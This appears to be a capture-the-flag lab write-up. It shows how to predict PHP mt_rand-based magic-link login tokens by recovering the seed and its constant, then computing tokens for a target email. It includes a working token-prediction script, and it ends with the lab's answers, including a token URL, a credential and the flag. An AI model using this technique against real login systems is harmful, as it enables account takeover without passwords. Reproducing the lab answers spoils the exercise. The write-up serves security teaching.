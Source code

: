 `php_mt_seed` will output a list of possible seeds that could have generated the random number `1135508541`. This may take up to a few minutes, depending on the range of possible seeds. When using `php_mt_seed`, the tool generates multiple possible seeds because different seeds can produce the same initial random number. This happens due to the way `mt_rand()` is initialised. To accurately identify the correct seed, each one must be tested in the environment individually. In our case, the random number `1135508541` was generated through the seed `970732804`.

Once you have identified the correct seed, you can identify the constant value that the server used to prepare the seed. All you need to do is subtract the CRC32 value of `magic@mail.random.thm` from the identified seed. You can use this [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=CRC-32_Checksum()From_Base(16)&ienc=65001&oeol=VT) to get the exact value.

After getting the CRC32 value `970731467`, if we subtract it from the identified seed value `970732804`, we will get the constant value, which is `1337` in this case. 

An attacker only needs the target’s email address to log in as someone else. Once they have the email, the attacker can calculate the CRC32 of the email, add `1337` to it, and use the resulting seed with `mt_srand()`. This allows the attacker to predict the exact token generated for the target, enabling them to bypass authentication and log in as that user without knowing the password. 

In the AttackBox copy and paste the following PHP code to a file called `magic_link_login.php` and then use the command `php -S 0.0.0.0:8181` to utilise PHP's built-in web server for us to access the script. The script will generate 10 tokens based on a seed comprising a constant value and an email address. The script will accept the constant value and email as input and generate the corresponding tokens. To use the script, simply navigate to the following URL with your desired parameters `http://ATTACKBOX_IP:8181/magic_link_login.php?email={email}&constant={constant}`:


```php
<?php if (isset($_GET['email']) && isset($_GET['constant']) && is_numeric($_GET['constant'])) { $email = $_GET['email']; $constant = (int)$_GET['constant']; if (filter_var($email, FILTER_VALIDATE_EMAIL)) { $seed = crc32($email) + $constant; mt_srand($seed); echo "<h3>Predicted Magic Link Tokens for $email</h3>"; for ($i = 0; $i < 10; $i++) { $random_number = mt_rand(); $token = base64_encode($random_number); echo "Predicted magic link token " . ($i + 1) . ": " . $token . "<br>"; } } else { echo "<div style='color:red;'>Invalid email format. Please provide a valid email.</div>"; } } else { echo "<div style='color:red;'>Please provide valid GET parameters: 'email' (valid email address) and 'constant' (numeric value).</div>"; } ?>
```

Now that you have the predicted token, you can log in as the target user. Simply visit the magic link URL [http://random.thm:8090/case/magic_link_login.php?token={predicted_token} ]  with the predicted token to log in without knowing the password.

```
What is the flag value after logging in as hr@mail.random.thm ?

hr@mail.random.thm
Testing@123

http://random.thm:8090/case/magic_link_login.php?token=MjU1MjEwNzUx

Flag: THM{HR_SIGNED_IN1337}


What is the PHP function used to seed the RNG in the code above?

mt_srand
```
